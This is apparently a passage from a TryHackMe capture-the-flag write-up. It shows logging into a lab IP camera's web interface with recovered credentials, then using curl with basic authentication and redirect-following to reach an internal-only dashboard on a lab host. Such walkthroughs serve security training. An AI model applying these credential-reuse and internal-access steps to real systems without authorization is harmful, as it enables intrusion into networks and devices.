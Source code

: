 ```
...

```

With this username / password combination in hand we can now head back to the browser and log in to the camera's web interface, where we are greeted by the first flag for this challenge.

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/b9060a2e-bc9a-4221-be0a-fef6d4a222e7)



Now that we are on the inside of the work (running off the IP Camera's firmware), it's worth trying to see whether the **"internal-only web application"** is now accessible to us:
```
$ curl http://10.10.106.239:8080
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   461  100   461    0     0   5971      0 --:--:-- --:--:-- --:--:--  6681
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>curl
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.57 (Debian) Server at 10.10.106.239 Port 8080</address>
</body></html>
```

We are served a page saying that the server is expecting us to supply credentials to access it, so perhaps we can try passing the credentials we just retrieved for the camera dashboard:
```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/
<br />
<b>Warning</b>:  Undefined array key "user" in <b>/var/www/html/index.php</b> on line <b>19</b><br />
<!DOCTYPE html>
<html lang="en" class="h-full bg-thm-800">

<head>
  <meta charset="UTF-8" />
  <link rel="icon" type="image/png" href="https://assets.tryhackme.com/img/favicon.png" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>TryHackMe | Cyber Police Dashboard</title>
  <link rel="stylesheet" href="styles.css" />
</head>
```
This still throws up an error, but if we add the `-L` switch to `curl` it wll follow website redirects and this time we get a different result:
```
$ curl -u 'admin:Y3<R E D A C T E D>d=admin' -s http://10.10.106.239:8080 -L

<!DOCTYPE html>
<html lang="en" class="h-full bg-thm-900">

<head>
  <meta charset="UTF-8" />
  <link rel="icon" type="image/png" href="https://assets.tryhackme.com/img/favicon.png" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>TryHackMe</title>
  <link rel="stylesheet" href="styles.css" />
```